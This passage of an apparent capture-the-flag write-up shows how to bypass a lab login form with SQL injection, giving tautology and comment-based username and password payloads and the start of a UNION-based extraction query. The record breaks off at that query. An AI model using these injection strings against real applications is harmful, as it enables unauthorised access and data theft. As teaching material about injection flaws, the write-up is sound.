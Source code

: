 ### **1. Objective of the Attacker**

The primary goal is to bypass authentication and gain administrative access, thereby revealing the hidden flag: `CTF{SQLi_Challenge_Solved!}`.

### **2. Crafting the Malicious Input**

To exploit SQL injection in this context, an attacker can manipulate the `username` and/or `password` fields to alter the SQL query's logic. Here's how:

#### **a. Basic Bypass Techniques**

- **Using `' OR '1'='1`**

  **Input:**
  - **Username:** `' OR '1'='1`
  - **Password:** `' OR '1'='1`

  **Resulting SQL Query:**
  ```sql
  SELECT role FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
  ```
  
  **Explanation:**
  - `'1'='1'` is always true.
  - The WHERE clause effectively becomes: `TRUE AND TRUE`, resulting in matching all records.
  - Depending on the database's response, this might log in the first user in the database (likely the admin).

#### **b. Targeting the Admin Role Specifically**

- **Using `' OR '1'='1' -- `**

  **Input:**
  - **Username:** `' OR '1'='1' -- `
  - **Password:** `anything`

  **Resulting SQL Query:**
  ```sql
  SELECT role FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'anything'
  ```
  
  **Explanation:**
  - The `--` sequence comments out the rest of the SQL query.
  - The WHERE clause simplifies to `username = '' OR '1'='1'`, which is always true.
  - This could return the first user's role, which is `admin`, thereby granting admin access.

#### **c. Extracting Specific Information**

While the primary objective here is to gain admin access, SQL injection can also be used to extract data:

- **Using Union-Based Injection:**

  **Input:**
  - **Username:** `' UNION SELECT role FROM users WHERE username='admin' -- `
  - **Password:** `anything`

